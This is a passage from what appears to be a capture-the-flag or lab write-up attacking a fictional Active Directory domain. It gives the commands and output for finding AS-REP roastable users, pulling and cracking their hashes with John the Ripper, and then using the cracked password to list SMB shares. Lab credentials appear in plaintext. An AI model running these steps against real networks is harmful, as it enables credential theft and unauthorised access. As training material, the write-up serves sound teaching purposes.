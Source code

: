 Next, we can look for low-hanging fruit like Kerberoastable and AS-REP roastable users.

```
╭─LDAP─[King-DC.async.empire]─[async\Towns_Merchant_7]
╰─PV ❯ Get-DomainUser -PreAuthNotRequired -Properties sAMAccountName
sAMAccountName     : Towns_Merchant_6
sAMAccountName     : Towns_Merchant_2
sAMAccountName     : Court_Jester_13

╭─LDAP─[King-DC.async.empire]─[async\Towns_Merchant_7]
╰─PV ❯ Get-DomainUser -SPN  
```

We identify three AS-REP roastable users, allowing us to request their TGTs and attempt to crack them.
```
proxychains -q nxc ldap King-DC.async.empire -u 'Towns_Merchant_7' -p 'Hq7L2wPzX9' --asreproast 'asrep.out' 
LDAP        10.2.30.51      389    KING-DC          [*] Windows Server 2022 Build 20348 (name:KING-DC) (domain:async.empire)
LDAP        10.2.30.51      389    KING-DC          [+] async.empire\Towns_Merchant_7:Hq7L2wPzX9 
LDAP        10.2.30.51      389    KING-DC          [*] Total of records returned 3
```

The TGTs will be saved in `asrep.out` (depends on the argument passed to `--asreproast`), and we can use `John the Ripper` to crack them.

```
john --wordlist=/usr/share/wordlists/rockyou.txt asrep.out
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jessisnaughty4u! ($krb5asrep$23$Court_Jester_13@ASYNC.EMPIRE) 
```

Using the newly obtained credentials, we can attempt to access the SMB shares once more - and find that we now have READ access to the `Castle_Guards_Schedule` share.

```
proxychains -q nxc smb targets.txt -u 'Court_Jester_13' -p 'jessisnaughty4u!' --shares
SMB         10.2.10.11      445    SOUTHERN-TOWER   [*] Windows Server 2022 Build 20348 x64 (name:SOUTHERN-TOWER) (domain:async.empire) (signing:False) (SMBv1:False)                                                                                                                                                             
SMB         10.2.30.51      445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False) 
SMB         10.2.10.11      445    SOUTHERN-TOWER   [+] async.empire\Court_Jester_13:jessisnaughty4u! 
SMB         10.2.30.51      445    KING-DC          [+] async.empire\Court_Jester_13:jessisnaughty4u! 
SMB         10.2.10.11      445    SOUTHERN-TOWER   [*] Enumerated shares
SMB         10.2.10.11      445    SOUTHERN-TOWER   Share           Permissions     Remark
SMB         10.2.10.11      445    SOUTHERN-TOWER   -----           -----------     ------
SMB         10.2.10.11      445    SOUTHERN-TOWER   ADMIN$                          Remote Admin
SMB         10.2.10.11      445    SOUTHERN-TOWER   C$                              Default share
SMB         10.2.10.11      445    SOUTHERN-TOWER   Castle_Guards_Schedule READ            Guard schedule for castle servants
SMB         10.2.10.11      445    SOUTHERN-TOWER   IPC$            READ            Remote IPC
SMB         10.2.30.51      445    KING-DC          [*] Enumerated shares
SMB         10.2.30.51      445    KING-DC          Share           Permissions     Remark
SMB         10.2.30.51      445    KING-DC          -----           -----------     ------
SMB         10.2.30.51      445    KING-DC          ADMIN$                          Remote Admin
SMB         10.2.30.51      445    KING-DC          C$                              Default share
SMB         10.2.30.51      445    KING-DC          IPC$            READ            Remote IPC
SMB         10.2.30.51      445    KING-DC          NETLOGON        READ            Logon server share 
```